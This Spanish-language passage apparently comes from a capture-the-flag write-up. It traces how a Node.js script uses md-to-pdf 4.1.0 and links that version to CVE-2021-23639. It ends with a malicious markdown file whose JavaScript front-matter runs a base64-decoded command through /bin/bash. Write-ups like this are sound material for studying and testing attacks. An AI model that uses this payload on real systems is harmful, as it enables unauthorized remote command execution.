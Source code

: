 Observamos que se ejecuta el archivo en `Javascript` `md-to-pdf.js`, lo buscamos en la ruta que indica:

```javascript
const { mdToPdf } = require('md-to-pdf');


(async () => {
await mdToPdf({ content: process.argv[2] }, { dest: './misc/attachments/' + process.argv[3] + '.pdf'});
})();
```

Por el nombre podemos deducir que se trata, en resumen `md-to-pdf` es una herramienta **CLI (Command Line Interface)** que permite convertir archivos de formato _markdown_ a _pdf_. 

Primero debemos tener en cuenta que al crear un proyecto e instalar las dependencias y librerías necesarias en la carpeta `node_modules`, también se crea un archivo `package.json` en el cúal se almacena el nombre de nuestro proyecto, como también todas las versiones de los paquetes que depende. Además, existe otro archivo llamado `package_lock.json` que tiene el mismo propósito que el anterior pero con la diferencia que al momento que alguien clone nuestro proyecto, este instalará las dependencias con las versiones que están en el archivo a pesar de que existan nuevas versiones

Con los conceptos más claro ya procedemos a analizar el pequeño código:

> En la primera línea solo importa el módulo `md-to-pdf`, osea la herramienta de la que hablabamos

> Luego usa una **arrow function ()=>** asíncrona **async / await** (podemos tomarlo como una ejecución en paralelo), que usa el módulo `md-to-pdf` 

> Para usar este módulo le pasa como contenido el texto de la nota que queremos importar `$'{r.text.strip()}'` y lo guarda en la ruta `./misc/attachments` con un número random como nombre y de tipo `.pdf`

Ahora el punto es como podemos explotar eso. Como mencioné antes, podemos saber la versión exacta de la herramienta `md-to-pdf` que se está usando, así que revisamos en el archivo `package_lock.json` y la encontramos:

```console
❯ cat package-lock.json | grep md-to-pdf -A 1
    "md-to-pdf": {
      "version": "4.1.0", <-------- Vulnerable?
      "resolved": "https://registry.npmjs.org/md-to-pdf/-/md-to-pdf-4.1.0.tgz",
      "integrity": "sha512-5CJVxncc51zkNY3vsbW49aUyylqSzUBQkiCsB0+6FlzO/qqR4UHi/e7Mh8RPMzyqiQGDAeK267I3U5HMl0agRw==",
```

Con la version procedemos a buscar vulnerabilidades y encontramos el [**CVE-2021-23639**](https://nvd.nist.gov/vuln/detail/CVE-2021-23639) el cuál nos permite una ejecución remota de comandos gracias a que la librería _gray-matter_ (que permite convertir string un archivo de objetos) se usa por defecto y no se deshabilita el intérprete de comandos **Javascript**, lo cuál nos permite pasar un archivo formato _markdown_ y con su respectiva sintáxis ejecutar código javascript

> Archivo `.md` malicioso

```md
❯ cat pwned.md
---js

        ((require("child_process")).execSync("echo {b64encoded command} | /usr/bin/base64 -d | /bin/bash"))

---
```
